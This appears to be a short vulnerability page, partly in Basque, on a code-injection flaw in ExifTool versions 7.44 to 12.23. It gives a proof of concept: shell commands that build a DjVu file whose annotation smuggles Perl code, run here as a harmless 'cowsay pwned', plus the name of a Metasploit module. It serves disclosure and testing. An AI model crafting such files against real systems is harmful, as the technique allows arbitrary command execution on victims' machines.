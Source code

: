 <languages />

Kaltetutako bertsioa
--------------------

ExifTool 7.44 to 12.23

POC
---

      $ printf 'P1 1 1 0' > moo.pbm
       $ cjb2 moo.pbm moo.djvu
       $ printf 'ANTa\0\0\0\40"(xmp(\\\n".qx(cowsay pwned>&2);#"' >> moo.djvu
       $ exiftool moo.djvu > /dev/null
        _______
       < pwned >
        -------
               \   ^__^
                \  (oo)_______
                   (__)\       )\/\
                       ||----w |
                       ||     ||

    --
    Jakub Wilk

Metasploit
----------

<https://github.com/rapid7/metasploit-framework/pull/15185>

    exploit/unix/fileformat/exiftool_djvu_ant_perl_injection